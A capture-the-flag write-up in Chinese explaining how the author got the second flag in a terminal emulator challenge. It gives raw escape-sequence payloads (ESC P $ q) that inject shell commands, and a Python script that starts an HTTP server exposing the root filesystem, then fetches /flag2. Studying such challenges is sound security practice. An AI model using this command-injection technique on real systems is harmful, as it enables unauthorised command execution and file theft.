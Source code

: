 ### 希望的终端模拟器，连接着我们的羁绊

这一问，我们需要拿到位于服务器根目录的flag2。

很自然想法是，我们现在相当于可以在终端上执行任意命令了，只是看不到终端的输出内容。

```raw
b'\x1bP$q\r\x03\r???\r\x1b\\\n'
```

在`???`处插入任意的命令，应该都可以执行，并且不存在`chroot`限制。

一开始的想法是，我通过一个操作把`/flag2`搬到当前目录，然后重新把`fileserver`启动起来，再向`flieserver`发起一个`GET /flag2`，就行了。结果试了好久才发现这个当前目录居然是只读的。于是这道题卡了小半天。

到了晚上突然想起，我为什么非得用他提供的文件服务呢？我不是还有`Python`？

于是写出下面payload：

```raw
b'\x1bP$q\r\x03\rpython3 -m http.server 8080 --directory /\r\x1b\\',
```

这样就可以把他的服务干掉以后开一个`Python`的文件服务器，而且可以指定根目录为当前目录。

最终的脚本如下：

```python
#!/usr/bin/env python3

import socket
import time
import re

payloads = [
    b'\x1bP$q\r\x03\rpython3 -m http.server 8080 --directory /\r\x1b\\',
    b'GET /flag2\r\n\r\n'
]


def request(port, payload):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(('127.0.0.1', port))
        s.sendall(payload)
        response = b""
        while 1:
            data = s.recv(4096)
            if not data:
                break
            response += data
        return response.decode()


request(8000, payloads[0])
time.sleep(0.5)
flag2 = request(8080, payloads[1])
print(re.search(r'flag\{.*}', flag2).group())

```
